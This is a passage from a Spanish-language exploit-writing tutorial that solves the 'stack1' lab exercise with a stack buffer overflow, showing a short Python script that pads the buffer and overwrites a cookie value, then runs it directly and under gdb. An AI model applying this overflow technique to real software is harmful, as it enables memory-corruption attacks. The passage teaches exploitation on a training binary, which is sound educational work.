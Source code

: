 Y logramos imprimir el mensaje ganador.\
&#x20;A medida que los exploits se complejicen será de utilidad armar un archivo en Python con el exploit que funcionará como input: `exploit.py`.

```bash
#!/usr/bin/python
output = "A" * 80 + "\x44\x43\x42\x41"
print output
```

Y al ejecutar el programa con ese input logramos el mismo resultado:

```bash
user@abos:~$ python exploit.py |./stack1
buf: bffff5b4 cookie: bffff604
you win!
```

{% hint style="danger" %}
Si utilizamos `gdb` a la hora de debugear el programa es importante tener en cuenta las diferencias en las direcciones al ejecutar un programa y al debugearlo con `gdb` para lograr los resultados esperados.
{% endhint %}

{% hint style="success" %}
Cuando debugeamos con [`gdb`](https://fundacion-sadosky.github.io/guia-escritura-exploits/herramientas.html#debugger-gdb) es posible ingresar un input por stdin al programa vulnerable de la siguiente manera:
{% endhint %}

```bash
user@u:~$ python exploit.py > in
user@u:~$ gdb ./stack1
GNU gdb (Debian 7.7.1+dfsg-5) 7.7.1
...
(gdb) r < in
buf: bffff5b4 cookie: bffff604
you win!
```

### Layout de la pila después del exploit: <a href="#layout-de-la-pila-despues-del-exploit" id="layout-de-la-pila-despues-del-exploit"></a>

Gráficamente logramos el siguiente resultado:

![](<../../../.gitbook/assets/imagen (64).png>)
